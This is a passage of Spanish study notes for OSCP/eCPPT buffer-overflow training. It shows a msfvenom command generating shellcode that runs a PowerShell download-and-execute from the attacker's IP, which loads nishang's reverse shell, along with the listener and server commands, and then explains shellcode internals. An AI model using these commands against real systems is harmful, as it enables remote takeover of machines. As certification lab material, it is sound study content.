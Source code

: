 Y consigo también la reverse shell.

**Si controlamos este tipo de buffer overflow ya tenemos la parte del BoF del OSCP y la del eCPPT bien preparada.**

### Extra; Modificando shellcode para controlar el comando a ejecutar.

```sh
> msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://MiIP/PS.ps1')" --platform windows -a x86 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread
```
Te ejecturá esa instrucción, ese PS.ps1 es un recurso de nishang que usamos mucho para máquinas Windows. Nos da una consola interactiva.  
Github nishang --> Shells --> Invoke-PowerShellTcp.ps1  
Este script lo renombrare a Ps.ps1. Para que al llamar al programa te ejecute la reverse tienes que modificarlo. No copiamos el Example de la reverse y lo pegamos, con nuestra IP y nuestro puerto, al final del script. Te interpretará la acción cuando llegue al final y te mandará la reverse.

Añadimos ese nuevo shellcode generado por el msfvenom al exploit.py.
```sh
> python3 -m http.server 80
```
```sh
> rlwrap nc -nlvp 443
```
```sh
> python3 exploit.py
```
La **diferencia** entre la reverse de  este apartado "extra" y el anterior, es que aquí conseguimos una reverse shell con **powershell** (shell powershell) y antes conseguimos una msdos. Y la powershell es más potente.

En la siguiente clase de la academia de s4vitar "Explotando un nuevo binario para reforzar lo aprendido" se ve como teniendo los conceptos claros se hace rápido.  
Se podría decir que aquí se acaba el BoF, añado un tema para profundizar.

### ¿Cómo funcionan los shellcodes?.

Dependiendo del sistema operativo y la arquitectura que corre el servicio a explotar se ha de crear un shellcode u otro.

Analizaremos el siguiente shellcode para un linux de 32 bits.
```sh
> msfvenom -p linux/x86/exec CMD="echo 'Hola Gente'" -f elf -o binary
# Para linux se usa el formato elf
# Lo exportamos como binary
```
Recuerda dar permiso de ejecución al binario `chmod +x binary`. Si lo ejecutaras te saldría por supuesto 'Hola gente'.

Para ver lo que pasa en el programa a bajo nivel, a nivel ensamblador:
```sh
> msfvenom -p linux/x86/exec CMD="echo 'Hola gente'" -f raw | ndisasm -b32 -
# Veremos las instrucciones.
# Si tenemos pwntools podemos hacer lo siguiente para verlo con colores:
> msfvenom -p linux/x86/exec CMD="echo 'Hola gente'" -f raw | disasm
```
La función **int (0x80)** corresponde a una interrupción del sistema, pudiendo aprovechar para hacer llamadas al sistema.

